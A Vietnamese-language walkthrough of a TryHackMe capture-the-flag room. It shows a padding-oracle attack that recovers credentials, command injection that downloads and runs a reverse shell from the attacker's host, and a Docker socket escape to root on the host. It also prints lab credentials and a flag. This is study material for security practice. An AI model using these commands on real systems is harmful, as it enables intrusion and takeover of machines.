<div align="center">
    <h1>⚾ TryHackMe  New York Yankees Writeup 🔓
</h1>
</div>

## 🚀 1. Khởi động taget



## 🔍 2. Recon

- Sử dụng `nmap` quét các cổng mở trên mục tiêu.



- Phát hiện các cổng mở bao gồm `22` cho dịch vụ `ssh` và `8080` cho `http`.

- Truy cập trang web bằng cổng `8080`



- Target là một trang blog đơn giản.

- Trang này có một form đăng nhập, có thể tìm các khai thác vào form này.



- Ngoài ra tìm được một trang `debug.html` sau khi nhấn vào `stefan test`.



- Sử dụng `gobuster` tìm kiếm các file và thư mục khác.



- Ngoài các file đã biết, chỉ phát hiện thêm `exec.html`, tuy nhiên trang này yêu cầu đăng nhập để được truy cập. Còn lại không tìm được thông tin nào có thể khai thác thêm.

## 🔑3. Tìm flag

- Kiểm tra mã nguồn trang debug, nhận thấy một đoạn code có chứa token  



```html
<script>
    function stefanTest1002() {
        var xhr = new XMLHttpRequest();
        var url = "http://localhost/api/debug";
        // Submit the AES/CBC/PKCS payload to get an auth token
        // TODO: Finish logic to return token
        xhr.open("GET", url + "/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4", true);

        xhr.onreadystatechange = function () {
            if (xhr.readyState === 4 && xhr.status === 200) {
                console.log("Response: ", xhr.responseText);
            } else {
                console.error("Failed to send request.");
            }
        };
        xhr.send();
    }
</script>
```
- Theo đó, đoạn code muốn gửi một chuỗi mã hóa dạng Hex `39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4` tới endpoint là `/api/debug/`



- Sử dụng `burpsuite` kiểm tra cũng phát hiện một `GET` request tới endpoint ứng với chuỗi mã hóa trên. 

- Truy cập thử vào endpoint này với trình duyệt



- Nhận được thông báo `Custom authentication success` có vẻ token trên là hợp lệ.

- Thử thay đổi token thì nhận được thông báo `Decryption error`.



- Sau khi tìm hiểu, có vẻ trang web này đang có lỗ hổng `Padding Oracle` https://en.wikipedia.org/wiki/Padding_oracle_attack

- Theo đó, `Oracle Padding` là một loại tấn công mật mã khai thác cách hệ thống xử lý padding trong các chế độ mã hóa khối đối xứng như `CBC`, `AES`, ...

- Trong chế độ CBC, nếu dữ liệu không đủ độ dài để lấp đầy khối cuối cùng, nó sẽ được thêm padding (ví dụ như theo chuẩn PKCS#7). Khi giải mã, hệ thống sẽ kiểm tra padding để xác định phần dữ liệu thực.

- Nếu hệ thống:

    - trả về lỗi cụ thể khi padding sai,

    - và trả về lỗi khác khi giải mã thành công hoặc lỗi khác,

    => Hacker có thể lợi dụng để từng bước đoán giá trị byte trong bản mã.

- Để khai thác lỗ hổng này, tôi tìm được 2 công cụ:

    - `padre`: https://github.com/glebarez/padre 

    -  `padbuster`: https://github.com/AonCyberLabs/PadBuster

- Sau khi sử dụng thử cả 2 công cụ, `padre` có cú pháp dễ sử dụng cũng như hiệu suất tốt hơn nên ưu tiên sử dụng công cụ này.



- Download tool `go install github.com/glebarez/padre@latest`



- Sau khi download thành công, xây dựng payload với những thông tin của target.

```bash
padre \
-u "http://10.10.171.105:8080/api/debug/$" \
-e lhex \
-err "Decryption error" \
"39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4"
```
- Đợi cho tool chay, thành công lấy được thông tin xác thực của trang web : `stefan1197:ebb2B76@62#f??7cA6B76@6!@62#f6dacd2599`





- Đăng nhập vào form login của trang web bằng thông tin lấy được ở trên.



- Khi này đã có thể truy cập vào `exec.html` 



=> lấy được flag đầu tiên 🚩🚩🚩



- Trang này có chứa một form cho phép nhập command.

- Sau khi submit, ta không nhận được kết quả của lệnh, tuy nhiên nhận được thông báo `OK` nếu lệnh thực thi thành công.



- Và không nhận được thông báo gì nếu lệnh không đúng.


- Có thể nghĩ đến việc chèn reverse shell vào bước này. Tuy nhiên sau khi thử nhập trực tiếp một số revershell vào form thì không thể thực hiện.

- Thử `curl http://10.21.175.20:4444/` đến server thì vẫn thực hiện thành công 



- Vì vậy tôi quyết định tải shell và thực hiện trực tiếp trên máy mục tiêu.

- Đầu tiên tạo file `shell.sh` trên máy attacker với nội dung sau:



- Thiết lập python server trên máy attacker và tải shell này về máy mục tiêu, cấp quyền sau đó thực thi.

```bash
curl http://10.21.175.20:4444/shell.sh -o /tmp/shell.sh
chmod +x /tmp/shell.sh
bash /tmp/shell.sh
```



- Chạy shell thành công, tạo được reverse shell.



- Khi tìm hiểu bên trong mục tiêu, nhận thấy có vẻ ta đang ở trong một docker container dựa trên các thông số giống như image id.





- Sử dụng `linpeas` để tìm kiếm tổng quát hệ thống.



- Thiết lập server là tải `linpeas.sh` từ máy attacker.





- Chạy `linpeas.sh`, phát hiện flag ẩn trong các biến môi trường.



- Tìm được flag tiếp theo 🚩🚩🚩 (ở dòng `CTF_DOCKER_FLAG=THM{342878cd14051bd787352ee73c75381b1803491e4e5ac729a91a03e3c889c2bf}`, trên hình đang highlight sai :(( )


- Tìm kiếm thêm trong container thì không thu được flag cuối, có lẽ cần thiết phải thoát khỏi container.

- Tìm kiếm thử `/var/run/docker.sock` thì file này có quyền đọc ghi.

    - `docker.sock` là một UNIX socket file được Docker daemon (dockerd) dùng để giao tiếp với các client. 

    - Nếu đang bên trong một container mà có quyền truy cập ghi/đọc đến `/var/run/docker.sock`, thì đồng nghĩa có thể điều khiển hoàn toàn Docker daemon của máy chủ host.



- Tìm kiếm được một số docker image.



- Từ những thông tin thu thập được, thực hiện lệnh:

```bash
docker run -it --rm --privileged -v /:/host 47a932d998b7 chroot /host bash
```
- Trong đó:
    - `docker run`: Khởi động một container mới.
    - `-it`: Chạy ở chế độ tương tác (`-i`) với terminal (`-t`).
    - `--rm`: Xóa container sau khi thoát.
    - `--privileged`: Cấp tất cả quyền cho container, bao gồm truy cập thiết bị và kernel features.
    `-v /:/host`: Mount toàn bộ filesystem của host (máy chủ chạy Docker) vào thư mục `/host` trong container.
    - `d5954e1d9fa4`: ID của image bạn đang chạy (ở đây là `gradle:7-jdk11`).
    - `chroot /host bash`: Thay `root filesystem` của container thành `/host` (tức là root của máy host), rồi chạy `bash`.

- Sau khi chạy thành công sẽ có `root shell` bên trong hệ thống host, không còn bị giới hạn trong container nữa.



- Từ đó, ta có thể tìm được file flag 🚩🚩🚩



=> Hoàn thành room 🎉🎉🎉

